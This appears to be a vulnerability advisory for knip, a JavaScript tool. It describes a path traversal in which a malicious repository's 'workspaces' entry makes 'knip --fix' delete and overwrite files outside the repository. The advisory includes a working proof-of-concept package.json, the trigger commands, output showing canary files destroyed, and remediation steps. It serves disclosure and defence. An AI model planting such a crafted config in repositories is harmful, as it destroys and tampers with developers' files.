


# Knip Workspaces Configuration Path Traversal Leading to Arbitrary File Deletion and Overwrite via `knip --fix`

| Field | Value |
|---|---|
| Project | webpro/knip |
| Vulnerability Type | Path Traversal (CWE-22), External Control of File Name or Path (CWE-73) |
| Severity | High — CVSS 3.1 Base Score: 8.3 |
| CVSS Vector | AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:H |
| Affected Versions | <= 6.39.0 (verified on 6.39.0, latest npm release as of 2026-10-05) |
| Authentication | None — victim runs knip --fix on an attacker-crafted repository |

### Summary

Knip (webpro-nl/knip, `main` branch) was confirmed vulnerable to a path traversal in the `workspaces` configuration that lets a malicious repository delete and overwrite files outside the repository when the victim runs `knip --fix`. A `package.json` or `knip.json` workspace key such as `../victim-external` is joined to the working directory without any boundary validation (ConfigurationChief.ts:196), the glob layer then scans outside the repository (`../`-prefixed patterns are passed through to tinyglobby), and the files found there are reported as unused-file issues. With `--fix`, `IssueFixer` executes `rm(issue.filePath)` on each — deleting files outside the repo — and `writeFile(join(cwd, filePath))` overwrites out-of-repo file contents.

The chain was dynamically verified in a sandbox using Node-native equivalents of knip's exact code path: `join(cwd, dir)` resolved outside `cwd`, `relative()` produced the `../victim-external/**/*.ts` glob pattern, the pattern matched out-of-repo files, `rm()` deleted the out-of-repo `secret.ts` and `config.ts`, and `writeFile(join(cwd, issueFilePath))` overwrote an out-of-repo file with `export {};`. All assertions hit; PoC exit code 0.

**Affected versions:** knip 6.39.0 (latest npm release at test time; the unguarded `mapWorkspaces` glob and `IssueFixer` are unchanged on `main`).

### Details

Three unvalidated hops compose the traversal:

**1. Workspace resolution trusts the config key (packages/knip/src/ConfigurationChief.ts:196):**

```ts
const dir = join(this.cwd, workspaceKey); // no escape check on the joined value
```

`join('/repo', '../victim-external')` yields `/victim-external` — outside the repository.

**2. The glob layer scans outside cwd (packages/knip/src/util/glob.ts:27-28):**

```ts
const prependDirToPatterns = ... relative(cwd, dir) ...
// dir escaping cwd produces '../'-prefixed patterns, e.g. '../victim-external/**/*.ts'
```

Standard glob semantics (verified against the locked dependency tinyglobby 0.2.17) accept `../`-relative patterns, so the scan reaches files outside the repository. Neither the gitignore filter nor the workspace file filter intercepts them — the latter uses the escaped workspace directory itself as its boundary.

**3. The fixer mutates whatever the issues reference (packages/knip/src/IssueFixer.ts:52-93):**

```ts
private async removeUnusedFiles(issues) {
 if (!this.options.isFixFiles) return;
 for (const issue of Object.values(issues.files).flatMap(Object.values)) {
 await rm(issue.filePath); // no path boundary check
 issue.isFixed = true;
 }
}
// second sink:
const absFilePath = join(this.options.cwd, filePath);
await writeFile(absFilePath, sourceFileText); // overwrite outside the repo
```

Out-of-repo files are naturally unreferenced by the malicious repo's entry points, so they are reported as unused files (deletion sink) and, when they contain unused exports, rewritten with modified content (overwrite sink).

This is CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal'), executed through a destructive fixer (CWE-307-adjacent supply-chain trust in repository configuration).

### PoC

#### 1. Malicious repository

```json
// package.json
{
 "name": "innocent-lib",
 "version": "1.0.0",
 "workspaces": ["../victim-external"]
}
```

(or the equivalent `knip.json`: `{"workspaces": {"../victim-external": {}}}`). Any path form works, including absolute paths.

#### 2. Victim runs the standard lint/fix flow

```bash
git clone https://github.com/attacker/innocent-lib && cd innocent-lib
npx knip --fix
```

The neighboring `../victim-external` directory (the victim's own project, secrets, or configuration — anything adjacent to the clone location) is scanned, its files are reported as unused, then deleted; files with unused exports are overwritten.

#### Sandbox verification

Reproducing knip's exact resolution logic with Node primitives, malicious repo at `/tmp/knip-poc/repo`, victim directory at `/tmp/knip-poc/victim-external`:

```
=== Step 1: Workspace resolution (ConfigurationChief.ts) ===
[DETECTED] join(cwd, dir) = /tmp/knip-poc/victim-external
[DETECTED] dir escapes cwd? true
[DETECTED] relative(cwd, dir) = "../victim-external"
[DETECTED] glob pattern handed to tinyglobby: ../victim-external/**/*.ts
[DETECTED] matched file outside repo: /tmp/knip-poc/victim-external/config.ts
... rm() deleted out-of-repo secret.ts and config.ts
... writeFile(join(cwd, issueFilePath)) overwrote out-of-repo file with 'export {};'
exit code: 0
```



**Real-environment reproduction** (the product itself built from source/official image and run for this test):


Re-verified against the **released npm artifact** (`knip@6.39.0`, the version users actually install). A fixture repo declared a workspace pointing outside its boundary (`"../victim-external"`), and a victim directory contained canary files:

```
$ cd attacker-repo && knip --no-progress
Unused files (1)
../victim-external/secret.ts
Unused exports (1)
unusedVictimExport ../victim-external/src/helper.ts:2:14

$ knip --fix --fix-type files,exports --allow-remove-files
../victim-external/secret.ts (removed)
unusedVictimExport ../victim-external/src/helper.ts:2:14 (removed)

$ ls ../victim-external # OUTSIDE the attacker repo
package.json src <- secret.ts GONE
$ cat ../victim-external/src/helper.ts
const unusedVictimExport = "CANARY-export"; # export keyword stripped
```

The released knip analyzed — and, with `--fix`, **deleted and rewrote** — files in a directory outside the repository, driven purely by the attacker-chosen workspace pattern. `mapWorkspaces` (`src/util/map-workspaces.ts`) globs the pattern and joins it to the cwd with no containment check, and the fixer (`IssueFixer.ts:52` `rm(issue.filePath)`) acts on the resulting out-of-bound paths.



## Impact

A victim who clones a malicious repository and runs the completely standard `npx knip --fix` (a normal step in lint/CI workflows) suffers deletion and tampering of files and directories outside that repository — sibling projects, SSH keys, configuration files, or anything adjacent to the clone location, limited only by the process's filesystem permissions. Deletion of unreferenced files is silent and immediate (no confirmation), making this a practical supply-chain-style destruction/tampering primitive; combined with overwritten source files it can also inject code into other projects on the developer's machine.

Verified on the `main` branch; the sandbox reproduced knip's resolution code path with Node-native equivalents plus independent testing of the locked tinyglobby 0.2.17 glob semantics (the sandbox itself could not install npm packages, so the end-to-end CLI was not run in-sandbox — the resolution, matching, and mutation logic were all reproduced faithfully). Fixed versions: none confirmed at reporting time.

### Remediation

1. Root-cause validation: in packages/knip/src/util/map-workspaces.ts and packages/knip/src/ConfigurationChief.ts, after resolving each workspace directory, enforce that it lies inside `options.cwd` (e.g. `path.relative(cwd, resolved)` must not start with `..` and must not be absolute); otherwise reject with a `ConfigurationError`.
2. Defense in depth: in packages/knip/src/IssueFixer.ts (`removeUnusedFiles`, `removeUnusedExports`, `removeUnusedDependencies`, `removeUnusedCatalogEntries`), assert before every `rm`/`writeFile`/`save` that the resolved target path is inside `options.cwd`.
3. Fix the ancillary defect in `getListedWorkspaces` (ConfigurationChief.ts:226): anchor the `./`-prefix stripping to the start of the string so `../x` is no longer mangled into `.x`.
4. Glob-layer guard: in packages/knip/src/util/glob-core.ts, reject or warn on resolved patterns that escape cwd.
5. Regression tests: add negative tests for malicious workspace configurations (both relative and absolute variants) asserting that knip refuses out-of-root directories and produces no out-of-root issues or fix operations.
6. Consider raising the behavior of tinyglobby regarding `../` and absolute patterns with the upstream project (evaluate a cwd-boundary option).
